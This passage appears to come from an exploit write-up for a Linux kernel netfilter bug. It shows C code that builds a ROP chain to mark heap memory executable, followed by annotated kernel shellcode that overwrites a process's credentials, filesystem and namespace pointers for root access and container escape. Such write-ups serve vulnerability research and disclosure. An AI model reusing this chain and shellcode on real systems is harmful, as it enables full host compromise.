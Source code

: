 - [exploit/extra-refined/exploit.c#L1133](../exploit/extra-refined/exploit.c#L1133)
```c
uintptr_t *gadget_start = (uintptr_t *)(buf_ptr + 0xe8);
int idx = 0;
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = nft_set_addr & ~0xfffUL;
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = 1;
gadget_start[idx++] = curr_gadget->set_memory_x_offset + kaslr_slide;
gadget_start[idx++] = nft_set_addr + 0x18 + 0x20 * 8;
```
The ROP payload is constructed by the code above. To execute the kernel shellcode, The ROP sequences perform the followings.
- `set_memory_x(heap_addr & ~0xfffUL, 1)`
- Execute the kernel shellcode located below.

After the above ROP sequence is executed, the kernel page the current chunk is located is set to RWX permission, and the kernel shellcode that follows is now executable.

For privilege escalation and container escape, the kernel shellcode pinpoints the exploit process from the task list and installs core kernel structures such as `struct cred`, `struct nsproxy`, and `struct fs` into the corresponding task struct directly. To do this, the kernel shellcode performs the followings.
- Starting from `init_task`, iterate through the task list to find the task struct of the exploit process.
  - In the loop, the kernel shellcode identifies the exploit process by comparing the task's `comm` fields with `TARGET_COMM` value. This magic value for `comm` field is set for the exploit process in the [preparation step](#72-preparation-for-post-pc-control-and-barrier-objects).
- Install the following structures into the found task for privilege escalation and container escape.
  - `task->cred = &init_cred`
  - `task->real_cred = &init_cred`
  - `task->fs = &init_fs`
  - `task->nsproxy = &init_nsproxy`
- Sleep eternally with `msleep(0xffffffff)` loop.


- [exploit/extra-refined/exploit.c#L1142](../exploit/extra-refined/exploit.c#L1142)
```c
unsigned char *sc = &gadget_start[idx];
// kernel shellcode
    // iterate through task_struct list started with init_task
    // if the target comm matches with magic value,
    // install init_cred / init_nsproxy / init_fs into target task_struct
    // and loop msleep(0xffffffff)
    /*
    0:  4d 31 ff                xor    r15,r15
    3:  49 be 00 00 fe ca ef    movabs r14,0xdeadbeefcafe0000 ; init_task
    a:  be ad de
    d:  49 bd 01 00 fe ca ef    movabs r13,0xdeadbeefcafe0001 ; target_comm
    14: be ad de
    17: 4d 39 ae 68 07 00 00    cmp    QWORD PTR [r14+0x768],r13
    1e: 74 1a                   je     0x3a
    20: 4d 8b b6 88 04 00 00    mov    r14,QWORD PTR [r14+0x488]
    27: 49 81 ee 88 04 00 00    sub    r14,0x488
    2e: 49 ff c7                inc    r15
    31: 49 81 ff e8 03 00 00    cmp    r15,0x3e8
    38: 7e d3                   jle    0xd
    3a: 48 bb 02 00 fe ca ef    movabs rbx,0xdeadbeefcafe0002 ; init_cred
    41: be ad de
    44: 49 89 9e 50 07 00 00    mov    QWORD PTR [r14+0x750],rbx
    4b: 49 89 9e 58 07 00 00    mov    QWORD PTR [r14+0x758],rbx
    52: 48 bb 05 00 fe ca ef    movabs rbx,0xdeadbeefcafe0005 ; init_fs
    59: be ad de
    5c: 49 89 9e a8 07 00 00    mov    QWORD PTR [r14+0x7a8],rbx
    63: 48 bb 03 00 fe ca ef    movabs rbx,0xdeadbeefcafe0003 ; init_nsproxy
```